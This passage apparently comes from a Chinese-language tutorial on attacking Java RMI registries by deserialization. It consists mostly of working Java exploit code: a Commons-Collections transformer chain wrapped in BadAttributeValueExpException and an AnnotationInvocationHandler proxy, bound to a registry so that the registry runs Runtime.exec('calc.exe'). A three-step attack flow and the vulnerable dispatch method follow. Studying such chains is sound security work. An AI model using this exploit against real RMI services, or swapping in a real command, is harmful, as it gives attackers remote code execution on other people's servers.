 ```java

            Transformer[] transformers = new Transformer[]{
                    new ConstantTransformer(Runtime.class),
                    new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                    new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                    new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"}),
            };
            Transformer transformer = new ChainedTransformer(transformers);
            Map innerMap = new HashMap();
            Map ouputMap = LazyMap.decorate(innerMap, transformer);

            TiedMapEntry tiedMapEntry = new TiedMapEntry(ouputMap, "pwn");
            BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);

            Field field = badAttributeValueExpException.getClass().getDeclaredField("val");
            field.setAccessible(true);
            field.set(badAttributeValueExpException, tiedMapEntry);

            Map tmpMap = new HashMap();
            tmpMap.put("pwn", badAttributeValueExpException);
            Constructor<?> ctor = null;
            ctor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructor(Class.class, Map.class);
            ctor.setAccessible(true);
            InvocationHandler invocationHandler = (InvocationHandler) ctor.newInstance(Override.class, tmpMap);
            Remote remote = Remote.class.cast(Proxy.newProxyInstance(HelloServer.class.getClassLoader(), new Class[]{Remote.class}, invocationHandler));
            Registry registry = LocateRegistry.getRegistry(2099);
            registry.bind("hello1", remote);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```
#### 攻击流程
1. 开启注册中心
2. 运行服务端代码
3. 注册中心反序列化，弹出计算器

其触发的反序列化位置在`sun.rmi.registry.RegistryImpl_Skel#dispatch`:
![](https://gitee.com/guuest/images/raw/master/img/20211118110403.png)


### 注册中心攻击服务端
参考[这篇文章](https://mp.weixin.qq.com/s/Ww_IxNLXI0KWZYERGwu3bg)
